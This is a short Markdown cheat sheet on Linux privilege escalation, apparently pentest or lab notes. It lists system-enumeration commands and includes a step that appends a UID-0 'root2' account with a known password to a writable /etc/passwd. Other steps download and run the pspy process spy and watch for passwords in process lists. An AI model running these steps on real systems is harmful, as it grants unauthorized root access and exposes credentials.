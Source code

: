 # Linux Privilege Escalation

## Check current user and group memberships
```bash
id
```

## List all system users
```bash
cat /etc/passwd
```

## Check if /etc/passwd is writable and create new root user
```bash
ls -la /etc/passwd
echo "root2:$(openssl passwd Password123):0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```

## Display hostname
```bash
hostname
```

## Linux OS distribution and version
```bash
cat /etc/issue
cat /etc/os-release
uname -a
cat /proc/version
lsb_release -a
```

## List all running processes
```bash
ps aux
ps -ef
```

## Monitor processes continuously with pspy
```bash
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
chmod +x pspy64
./pspy64
```

## Watch for password-related processes
```bash
watch -n 1 "ps -aux | grep pass"
```
